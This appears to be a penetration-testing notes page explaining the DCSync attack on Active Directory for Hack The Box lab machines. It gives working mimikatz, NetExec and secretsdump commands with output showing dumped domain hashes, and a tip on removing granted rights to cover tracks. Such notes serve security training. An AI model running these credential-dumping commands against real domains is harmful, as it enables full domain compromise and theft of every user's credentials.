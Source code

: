 ```yaml
---
description: >-
  An one-liner late-phase attack aiming on full domain compromise. Can be
  perfomed after owning an domain account which has DCSync rights.
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# DCSync

## TL;DR

<div align="left">

<figure><img src="../../../.gitbook/assets/dcsync_attack.png" alt=""><figcaption></figcaption></figure>

</div>

DCSync is a technique for stealing the Active Directory password database (`ntds.dit`) by using the built-in **Directory Replication Service Remote** protocol, which is used by Domain Controllers (DCs) to replicate domain data. This allows an attacker to **mimic a DC and retrieve users' NTLM password hashes**. To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights** (Figure 1):

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

> _Domain/Enterprise Admins and default Domain Administrators have these rights by default._

<figure><img src="broken-reference" alt=""><figcaption><p>Firure 1: DCSync rights (image taken from the article linked below).</p></figcaption></figure>

## Tools

{% hint style="info" %}
If we have `WriteDacl`rights over an account, we can assign DCSync rights to it, execute the DCSync attack, and then remove them to attempt to cover our tracks. An example of this can be seen in the [privilege escalation part of the Forest box](../../../boxes/easy/forest.md#privilege-escalation). In the examples below, we assume that the user `hacker`has DCSync rights.
{% endhint %}

### Windows

The DCSync attack can be performed with [`mimikatz`](https://github.com/ParrotSec/mimikatz), but we must target a specific user and it must be ran in the context of the user who has DCSync privileges. The latter can be achieved with [Runas](https://github.com/antonioCoco/RunasCs):

```sh
# start a powershell session in the context of hacker
>runas /netonly /user:HTB\hacker powershell
Enter the password for HTB\hacker:
Attempting to start powershell as user "HTB\hacker" ...
```

Now we can perform the attack from the spawned PowerShell:

```powershell
> .\mimikatz.exe
 
mimikatz # privilege::debug
Privilege '20' OK
 
mimikatz # lsadump::dcsync /domain:HTB.LOCAL /user:HTB\administrator
[DC] 'HTB.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.HTB.LOCAL' will be the DC server
[DC] 'HTB\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
 
Object RDN           : Administrator
 
** SAM ACCOUNT **
 
SAM Username         : administrator
User Principal Name  : administrator@htb.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500
 
Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf
 
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d
 
<SNIP>
```

### Linux

We can use [NetExec](https://github.com/Pennyw0rth/NetExec) to dump the whole `ntds.dit` database or the hash of a specified user:

{% hint style="info" %}
NXC uses [secretsdump's methods](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit) to dump `ntds.dit`.
{% endhint %}

```bash
# dumping the administrator hash
$ nxc smb 10.10.10.161 -u hacker -p h@ck3r! --ntds --user administrator
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\hacker:h@ck3r!
SMB         10.10.10.161    445    FOREST           [-] Account not found in the BloodHound database.
SMB         10.10.10.161    445    FOREST           [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         10.10.10.161    445    FOREST           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.10.161    445    FOREST           htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
SMB         10.10.10.161    445    FOREST           [+] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds of which 1 were added to the database
SMB         10.10.10.161    445    FOREST           [*] To extract only enabled accounts from the output file, run the following command:
SMB         10.10.10.161    445    FOREST           [*] cat /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.10.10.161    445    FOREST           [*] grep -iv disabled /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds | cut -d ':' -f1
```

Impacket's [`secretsdump.py`](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) can be also used directly.&#x20;

```bash
$ secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32<REDACTED>a6:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
[*] Cleaning up...
```

## Practice

{% tabs %}
{% tab title="Forest (Easy)" %}
{% content-ref url="../../../boxes/easy/forest.md" %}
[forest.md](../../../boxes/easy/forest.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="Sauna (Easy)" %}
{% content-ref url="../../../boxes/easy/sauna.md" %}
[sauna.md](../../../boxes/easy/sauna.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="DCSync" %}
{% embed url="https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection" %}
A great article about the DCSync attack.
{% endembed %}
{% endtab %}
{% endtabs %}
